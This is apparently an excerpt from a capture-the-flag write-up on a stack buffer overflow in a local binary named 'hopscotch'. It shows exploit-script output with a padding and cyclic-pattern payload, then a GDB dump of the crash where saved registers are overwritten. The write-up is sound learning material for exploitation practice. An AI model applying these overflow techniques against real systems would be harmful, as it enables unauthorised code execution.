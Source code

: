 Use a Python script to overwrite until the needed position, and write back the needed value (so that it doesn't get tampered with)

### Arbituary code execution baby

This is a good sign
```
$ python solve.py
[+] Starting local process './hopscotch': pid 1304
(u'Buffer: 0x7ffff32724e0\nEnter input:', '\n', u'0x7ffff32724e0')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA9\x05\x00AAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0

[*] Switching to interactive mode
[*] Process './hopscotch' stopped with exit code -11 (SIGSEGV) (pid 1304)
[*] Got EOF while reading in interactive
$
[*] Got EOF while sending in interactive
```

```
─── Output/messages ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

Program received signal SIGSEGV, Segmentation fault.
0x7ffffffedd58: 0x33614132      0x41346141      0x61413561      0x37614136
0x7ffffffedd68: 0x41386141      0x00413961      0x0040121b      0x00000000
0x7ffffffedd78: 0xff6067cf      0x00007fff      0x00000000      0x00000000
0x7ffffffedd88: 0xba7d7f1a      0xb01dfc55      0x004010d0      0x00000000
0x7ffffffedd98: 0x00000000      0x00000000      0x00000000      0x00000000
0x7ffffffedda8: 0x00000000      0x00000000      0x253d7f1a      0x4fe20328
0x7ffffffeddb8: 0x467b7f1a      0x4fe20215      0x00000000      0x00000000
0x7ffffffeddc8: 0x00000000      0x00000000      0x00000000      0x00000000
0x00000000004012be in main ()
─── Assembly ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
 0x00000000004012be  ? ret
 0x00000000004012bf  ? nop
 0x00000000004012c0  ? endbr64
 0x00000000004012c4  ? push   %r15
 0x00000000004012c6  ? lea    0x2b43(%rip),%r15        # 0x403e10
 0x00000000004012cd  ? push   %r14
 0x00000000004012cf  ? mov    %rdx,%r14
 0x00000000004012d2  ? push   %r13
 0x00000000004012d4  ? mov    %rsi,%r13
 0x00000000004012d7  ? push   %r12
─── Breakpoints ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
[2] break at 0x0000000000401261 for *0x0000000000401261 hit 1 time
─── Expressions ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
─── History ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
$$0 = 140737484081815
─── Memory ─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
─── Registers ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
    rax 0x0000000000000000     rbx 0x0000000000000000     rcx 0xfffffffffffff28b     rdx 0x0000000000000000     rsi 0x00007fffff79ea03        rdi 0x00007fffff7a1680
    rbp 0x6141316141306141     rsp 0x00007ffffffedd58      r8 0x00007ffffffedd10      r9 0x0000000000000000     r10 0xfffffffffffff28b        r11 0xfffffffffffff28b
    r12 0x00000000004010d0     r13 0x0000000000000000     r14 0x0000000000000000     r15 0x0000000000000000     rip 0x00000000004012be     eflags [ PF ZF TF IF RF ]
```